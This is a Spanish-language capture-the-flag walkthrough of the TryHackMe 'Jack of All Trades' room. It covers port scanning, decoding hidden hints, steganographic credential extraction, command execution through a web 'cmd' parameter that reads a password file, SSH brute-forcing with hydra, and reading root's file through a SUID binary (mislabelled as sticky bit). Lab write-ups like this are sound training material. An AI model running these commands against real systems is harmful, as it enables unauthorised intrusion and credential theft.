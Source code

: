 ```yaml
---
title : "Jack of All Trades - Write Up - Español"
date : 2021-07-04T14:31:31+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "Máquina de nivel fácil en TryHackMe."
tags : ["strings","stego","RCE","steghide","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/jackofalltrades)  | Fácil  |  [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)  |

## Reconocimiento

Como de costumbre, usando `nmap` obtenemos los puertos abiertos de la máquina.

Pero obtenemos algo bastante inusual.

```bash
╰─ lanfran@parrot ❯ map 10.10.22.246                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 14:32 CEST
Nmap scan report for 10.10.22.246
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.85 seconds
```

¡Conseguimos los puertos cambiados!
El `puerto SSH es el 80`.
Y el `puerto web es el 22`.

¡Es una buena manera de pu&$\*!# a algunas personas despistadas!

Analicemos el servidor web con `gobuster`

```bash
╰─ lanfran@parrot ❯ curl http://10.10.22.246:22/                                                                                                                              ─╯
<html>
	<head>
		<title>Jack-of-all-trades!</title>
		<link href="assets/style.css" rel=stylesheet type=text/css>
	</head>
	<body>
		<img id="header" src="assets/header.jpg" width=100%>
		<h1>Welcome to Jack-of-all-trades!</h1>
		<main>
			<p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p>
			<p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p>
			<p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
			<p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
			<img src="assets/stego.jpg">
			<p>I make a lot of models myself, but I also do toys, like this one:</p>
			<img src="assets/jackinthebox.jpg">
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZX[REDACTADO]Nzd29yZDogdT9XdEtTcmFxCg== -->
			<p>I hope you choose to employ me. I love making new friends!</p>
			<p>Hope to see you soon!</p>
			<p id="signature">Jack</p>
		</main>
	</body>
</html>
```
Tenemos buena información aquí:
- Obtenemos un texto codificado aquí.
- Encontramos un nuevo endpoint `recovery.php`.

1. ¡Necesitamos decodificar el texto, así que vamos a usar [cyberchef](https://gchq.github.io/CyberChef/)!
Para decodificarlo necesitamos usar `Base64`

Y recibimos un mensaje:
`Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [REDACTADO](
¡Recuerde desearle lo mejor a Johny Graves con su búsqueda de trabajo en cripto! ¡Sus sistemas de codificación son increíbles! También debes recordar tu contraseña: [REDACTADO])`

¡Bien! Tenemos una contraseña. Dejémoslo para más tarde.


2. Usando curl para navegar, obtenemos también un texto codificado oculto en el código fuente.
```bash
╰─ lanfran@parrot ❯ curl http://10.10.22.246:22/recovery.php                                                                                                                  ─╯
		
<!DOCTYPE html>
<html>
	<head>
		<title>Recovery Page</title>
		<style>
			body{
				text-align: center;
			}
		</style>
	</head>
	<body>
		<h1>Hello Jack! Did you forget your machine password again?..</h1>	
		<form action="/recovery.php" method="POST">
			<label>Username:</label><br>
			<input name="user" type="text"><br>
			<label>Password:</label><br>
			<input name="pass" type="password"><br>
			<input type="submit" value="Submit">
		</form>
		<!-- GQ2TOMRXME3TE[REDACTADO]TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
		 
	</body>
</html>
```

¡Usemos [cyberchef](https://gchq.github.io/CyberChef/) nuevamente para decodificarlo!

La ruta de decodificación es `Base32 -> Hex -> ROT13`.

Y recibimos un mensaje:
`Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S`(
`Recuerde que las credenciales para el inicio de sesión de recuperación están ocultas en la página de inicio. Sé lo olvidadiza que eres, así que aquí tienes una pista: bit.ly/2TvYQ2S`)

## Acceso inicial - Usuario

Navegando a ese enlace, obtenemos una página de Stegosaurio de Wikipedia. ¿Quizás el creador nos está diciendo que usemos esteganografía?

¡Descarguemos todas las imágenes de la página web!

Después, ejecute `steghide` con la contraseña del "1er" punto, obtenemos un nuevo archivo:

```bash
╰─ lanfran@parrot ❯ steghide extract -sf header.jpg                                                                                                                                       ─╯
Enter passphrase: u[REDACTADO]
the file "cms.creds" does already exist. overwrite ? (y/n) y
wrote extracted data to "cms.creds".

╰─ lanfran@parrot ❯ cat cms.creds                                                                                                                                                         ─╯
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: [REDACTADO]
```
¡Woohooo! ¡Obtenemos la contraseña del usuario para `recovery.php`!

Así que iniciemos sesión ahora. [Si recibe el error "ERR_UNSAFE_PORT" en su navegador, debe habilitar el puerto 22. Busco en Google una forma de solucionarlo, en Brave / Chrome debe pasar la bandera "--explicitly-allowed-ports=22 "]

¡Estupendo! Incluso podemos aprovechar el parámetro `cmd` para hacer RCE.

Después de buscar, encontramos un archivo con contraseñas.

`http://10.10.194.240:22/nnxhweOV/index.php?cmd=cat%20%20/home/jacks_password_list`

Descargue ese archivo y usémoslo, junto con `hydra` para forzar el SSH (recuerde que está en el puerto 80 :))

```bash
╰─ lanfran@parrot ❯ hydra -l jack -P pass.txt -s 80 ssh://10.10.22.246                                                                                                                    ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-04 15:01:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.22.246:80/
[80][ssh] host: 10.10.22.246   login: jack   password: [REDACTADO]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-04 15:01:19
```
Genial, ahora tenemos la contraseña, así que vamos a SSH.

```bash
╰─ lanfran@parrot ❯ ssh jack@10.10.22.246 -p 80                                                                                                                                           ─╯
jack@10.10.22.246's password: 
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
jack@jack-of-all-trades:~$ 
```

Vamos a usar "cat" para leer la flag del usua... La p\*\*\*, es una imagen. Descargámoslo a nuestra máquina local y leamos/copiemos la bandera.
_Recomiendo usar el lector de autoimagen del traductor de Google para copiar la bandera :)_

## Root

Al escanear la máquina, encontramos que el binario `strings` tiene el Sticky bit, por lo que podemos usarlo para leer el flag de root.

```bash
jack@jack-of-all-trades:~$ ls -la /usr/bin/strings 
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
jack@jack-of-all-trades:~$ /usr/bin/strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{[REDACTADO]}
```

¡Y hemos "rooteado" la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!